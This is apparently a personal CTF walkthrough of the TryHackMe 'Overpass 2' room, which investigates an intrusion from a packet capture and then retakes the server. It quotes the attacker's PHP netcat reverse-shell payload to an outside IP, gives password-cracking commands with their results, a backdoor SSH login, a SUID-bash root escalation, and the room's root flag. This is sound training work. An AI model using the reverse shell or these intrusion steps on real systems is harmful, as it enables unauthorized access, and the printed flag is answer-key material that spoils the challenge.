 
- - - 
created : 18-07-2025 

Tags : #easy #Forensics
- - - 
# Objective

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into [Overpass](./Overpass.md) production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic [Wireshark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) and completing [Linux Fundamentals](https://tryhackme.com/module/linux-fundamentals) as a bare minimum.  

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

# Recon

## WireShark

First we look into the download and we have a [Wireshark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) capture file :

![Pasted image 20250718204403.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718204403.png)

So we have a payload and the URL .

We can also see the [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) :

![Pasted image 20250718205213.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718205213.png)

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

We can find the password used for escalation by searching for the string 'passw' :

![Pasted image 20250718210221.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210221.png)

![Pasted image 20250718210608.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210608.png)

A [Persistence](../../3%20-%20Tags/Hacking%20Concepts/Persistence.md) attempt :

![Pasted image 20250718210844.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210844.png)

We can find all the password retrieved by the attacker :

![Pasted image 20250718211408.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718211408.png)

## John The Ripper

Now we can crack all the passwords with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) and see how many we got with the fasttrack.txt wordlist :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ john passwd /usr/share/wordlists/fasttrack.txt 
Warning: only loading hashes of type "sha512crypt", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst

secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```

So we have 4 .

## Backdoor Analysis

We can now analyze the [Backdoor](../../3%20-%20Tags/Hacking%20Concepts/Backdoor.md) used as [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md), to do that we are going to actually download it and read it, we can find the [Hash](../../3%20-%20Tags/Hacking%20Concepts/Hash.md) of the [Backdoor](../../3%20-%20Tags/Hacking%20Concepts/Backdoor.md) :

![Pasted image 20250718212952.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718212952.png)

In order to find the hardcoded salt we are going to have to analyze the source code. We are able to do this on the GitHub website. The piece that we are specifically looking for is going to be in the main.go portion of code :

![Pasted image 20250718213115.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718213115.png)ù

We saw previously that the attacker used a custom hash :

![Pasted image 20250718213837.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718213837.png) :

The salt (remember that the salt is hardcoded) is appended to the password, and [SHA512](../../3%20-%20Tags/Hacking%20Concepts/SHA512.md) of the resulting string makes the hash. To summarize, we have :
```
 SHA512(password + '1c362db832f3f864c8c2fe05f2002a05') = '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed'
```

Now, let’s crack it with [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md) (we’ll use the mode `1710`, which corresponds to `sha512($pass.$salt)`):

```
$ hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Sun Aug 16 18:44:00 2020 (2 secs)
Time.Estimated...: Sun Aug 16 18:44:02 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   149.3 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika
```

# Hacking

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There’s flags on the box that Overpass can’t afford to lose by formatting the server!

## Website 

So the port 80 is showing this message :

![Pasted image 20250718214928.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718214928.png)

## SSH

We can access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with james and the cracked password on port 2222 (see payload) :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ ssh james@10.10.173.247 -p 2222         
The authenticity of host '10.10.173.247 (10.10.173.247)' can't be established.
ED25519 key fingerprint is SHA256:M+alDmfQ9SPk8CLKIRe6QQD9sNcr/ptoDNbQLZDzIqs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.173.247' (ED25519) to the list of known hosts.
root@10.10.173.247's password: 
```

tried the **password** retrieved from cracking the **SHA-512 hash** earlier with [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md). This failed for port 22 but worked for port 2222, now we cat the user flag :

```
root@ip-10-10-50-126:~# ssh james@10.10.53.38 -p 2222
The authenticity of host '[10.10.53.38]:2222 ([10.10.53.38]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.53.38]:2222' (RSA) to the list of known hosts.
james@10.10.53.38's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@overpass-production:/home/james/ssh-backdoor$ 
```
# Privilege Escalation

In the directory of current logged user have **[.suid_bash](https://gtfobins.github.io/gtfobins/bash/#suid)** :

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

We got root and readed the txt file

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
```

Pwned !!